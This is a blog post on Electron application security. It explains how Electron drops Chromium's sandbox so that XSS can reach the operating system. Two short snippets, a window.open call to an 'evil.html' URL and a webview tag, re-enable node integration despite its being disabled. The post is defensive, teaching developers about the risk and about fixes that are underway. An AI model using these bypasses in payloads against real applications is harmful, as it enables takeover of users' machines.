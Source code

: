 ```yaml
---
author: dkerr
title: "As It Stands - Electron Security"
title-short: "Electron Security"
layout: default_post
categories:
  - Web
  - Electron
  - Security
summary: "A brief look at the current state of application security in Electron"
image: dkerr/assets/featured/electron.jpg
tags:
  - featured
---
```


Over the past few years, there's been an increasing demand for web applications to separate from the browser and become fully integrated desktop applications. Previously, the amount of time and effort required to convert an existing application was a major roadblock to developers and businesses. However, frameworks are starting to appear offering an easier route to build cross-platform desktop applications utilising web technologies.

Back in early 2014, the [Atom IDE](https://atom.io) was released by GitHub with much fanfare. What made Atom unique was how GitHub managed to develop this cross-platform desktop application using only web technologies. Under the hood of Atom, the open-source Electron framework was developed to allow Atom to look, feel and behave just like a desktop application.

Ever since Atom's release, Electron has been rapidly gaining popularity and is being used to build an [extensive variety](http://electron.atom.io/#built-on-electron) of desktop applications. Companies such as Facebook, Slack, Docker and Microsoft are using it to build applications from the eponymously named [Slack](https://slack.com/), a messaging client inspired by IRC, to [Kinematic](https://kitematic.com), a GUI used to visualise and manage docker containers.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/atom-electron-chromium.png' title="Atom stack" alt="Atom + Electron + Chromium stack" />
</p>

To allow web applications to run as desktop applications, Electron uses [Chromium](https://www.chromium.org/Home). Chromium is the open source foundation on which the Chrome web browser is based. Effectively, an Electron application is running inside a customised Chromium wrapper. Therefore, the security challenges an Electron application faces are almost identical to if it was running inside Chrome or any other web browser.

## Goodbye Sandbox

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/chromium-sandbox.png' title="Chromum Sandbox" alt="Chromium sandbox" />
</p>

The [Chromium sandbox](https://www.chromium.org/developers/design-documents/sandbox) encapsulates processes inside a very restrictive environment. The only resources sandboxed processes can freely use are CPU cycles and memory. What processes can do is controlled by a well-defined policy, this prevents bugs or attacks from performing IO operations (e.g. reading / writing files) on the user's system.

To provide applications with desktop functionality, the Electron team modified Chromium to introduce a runtime to access native APIs as well as Node.js's built in and third-party modules. To do this the Chromium sandbox protection was disabled, meaning any application running inside Electron is given unfiltered access to the operating system.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/electron-sandbox.png' title="Electron Sandbox" alt="Electron sandbox" />
</p>

This is not a concern for a lot of Electron applications, especially those that don't pull in remote data and need extensive operating system privileges anyway (such as an IDE). However, this is a (potentially) serious and unnecessary security risk for applications that do pull in remote data, any successful XSS attack would give the attacker full control over the victim's machine!

It's worth stressing that a successful XSS attack within a sandboxed application is still a catastrophic event that can do untold damage. Even restricted to the sandbox, an attack can execute scripts to hijack user sessions, deface web sites, insert hostile content, redirect users and install malware. Nonetheless, unless they escape the sandbox the potential for damage stops at the browser level with the operating system left unharmed and only data explicitly shared with the browser at risk.

## False sense of security

To reduce the potential impact of an XSS attack on their application, many developers look at turning off node integration if it isn't needed. It's a sensible approach taken to [minimise the attack surface](https://www.owasp.org/index.php/Secure_Coding_Principles#Minimize_attack_surface_area) of the application, and [retain the least amount of privilege](https://www.owasp.org/index.php/Secure_Coding_Principles#Principle_of_Least_privilege) required to perform their business function.

Each Electron application has a [main process](http://electron.atom.io/docs/v0.36.8/tutorial/quick-start/#main-process) which executes a script that bootstraps the application. This script creates web pages by instantiating [BrowserWindow](https://github.com/atom/electron/blob/master/docs/api/browser-window.md) objects, each instance runs in their own process called the renderer process. In this script, it's possible to turn off node integration for each renderer process by setting a [`nodeIntegration` flag](https://github.com/atom/electron/blob/master/docs/api/browser-window.md#new-browserwindowoptions) to false inside the configuration provided when instantiating the BrowserWindow:

{% highlight js %}
new BrowserWindow({
    webPreferences: { nodeIntegration: false }
});
{% endhighlight %}

**However, exploits exist that allow the renderer processes to re-enable node integration despite it being explicitly turned off in the configuration!** This is something many developers are unaware of, any XSS attack has the potential to use these loopholes to re-enable node integration and gain full control over the victim's machine.

The first [workaround](https://github.com/atom/electron/issues/4026) uses Electron's [`window.open`](http://electron.atom.io/docs/v0.36.8/api/window-open/) function to spawn new child windows. The default behaviour for a new child window is to inherit the parent window's options. Currently, it's possible to override the options (including node integration) by setting them in the features string when calling `window.open`:

{% highlight js %}
window.open("www.example.com/evil.html", "", "nodeIntegration=1");
{% endhighlight %}

The code above spawns a new BrowserWindow object which displays the provided URL in a web page with node integration enabled. Any scripts ran within the given URL would have full access to all the Node APIs (e.g. [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system)) and any Electron modules [provided to renderer processes](http://electron.atom.io/docs/v0.36.8/#modules-for-the-renderer-process-web-page).

Another [workaround](https://github.com/atom/electron/issues/3943) involves inserting a [`webview`](http://electron.atom.io/docs/v0.36.8/api/web-view-tag/) element into the page. The webview element is a custom Electron DOM element used to embed guest content (such as web pages) inside an application. It's possible to add `nodeintegration` and `disablewebsecurity` attributes to the webview element to provide the guest content with access to the Node APIs as well as bypassing any [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) restrictions enforced by the renderer process.

{% highlight html %}
<webview src="data:text/html,<script>var fs = require('fs')</script>" nodeintegration></webview>
{% endhighlight %}

The example above runs an inline script that imports Node's [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system) module, access is granted thanks to the `nodeintegration` attribute placed on the `webview` element. The guest content inside the webview has identical privileges to the `window.open` workaround.

## As it stands

Successful XSS attacks are already catastrophe events for web applications. Electron widens the consequences of these attacks since they are no longer constrained by the sandbox from accessing the victim's machine. This places even greater emphasis on developers to ensure that their applications are not vulnerable to XSS, as the layer of protection offered by the sandbox is no longer present.

One smaller concern is how up-to-date the Electron team will keep its version of Chromium. As security issues are [patched and published](http://googlechromereleases.blogspot.co.uk/2016/03/stable-channel-update.html) by the Chromium team, Electron will need to keep updated to stay protected against exploits. So far, the team have been keeping Electron closely in sync and [their plan](http://electron.atom.io/docs/v0.36.8/faq/electron-faq/#when-will-electron-upgrade-to-latest-chrome) is to be only one to two weeks behind. It's worth pointing out that there are a number of large companies who have a lot to lose if Electron ever fell too far behind, this makes it rather unlikely to happen but it's still a potential risk to monitor.

## Planned Changes

The good news is that Electron is a very active open source project, backed by a major web player ([GitHub](https://www.github.com)) and a lot of companies have built their products using it. As a result, the workarounds mentioned above (as well as other issues) are already being addressed thanks to contributions from a number of interested parties.

Once those workarounds have been patched, Electron applications should be a lot more resilient against XSS attacks re-enabling node integration. It's worth pointing out that there's an [open discussion](https://github.com/atom/electron/issues/1753) around Electron's security model on GitHub, so further changes and improvements are likely to be made once this discussion is finalised.

One notable contribution that's underway is the return of sandbox protection for any Electron applications that don't need node integration. This work is being undertaken by the developers of [Brave](https://www.brave.com/), a recently-announced web browser which aims to block ads and trackers to protect user's privacy and enhance browsing speed. They've been incredibly open about [their plan](https://twitter.com/BrendanEich/status/696610645693730816) which is to contribute their progress back to the community, once the work on their forked version of Electron is finished.

<p style="text-align: center">
	<img src='{{ site.github.url }}/dkerr/assets/brave-sandbox.png' title="Brave Sandbox" alt="Brave sandbox" />
</p>

They're using Electron to wrap the webpage content shown by their browser, this means they're not in control of the content being shown and so are far more vulnerable to attacks. The content they are showing needs no node or desktop integration, so the loss of this functionality caused by re-enabling the sandbox protection isn't an issue to them.

## Conclusion

To summarise, Electron currently has its fair share of security issues that complicate the process of building secure applications. The removal of the sandbox protection in return for desktop integration removes an important [layer of defence](https://www.owasp.org/index.php/Defense_in_depth) against XSS attacks. Various workarounds also exist that circumvent turning node integration off in the event of an XSS attack. Fortunately, due to the framework's popularity and active community the Electron team are already making good progress to resolving these issues.

With that said, there's still a lot of work to be done. One major goal should be a more secure way for applications that do need some node and desktop integration to interact with the operating system. At the moment however, there's no clear path forward on how that would be achieved.

**[See this post for an update](http://blog.scottlogic.com/2016/06/01/An-update-on-Electron-Security.html) to the points raised in this article.**
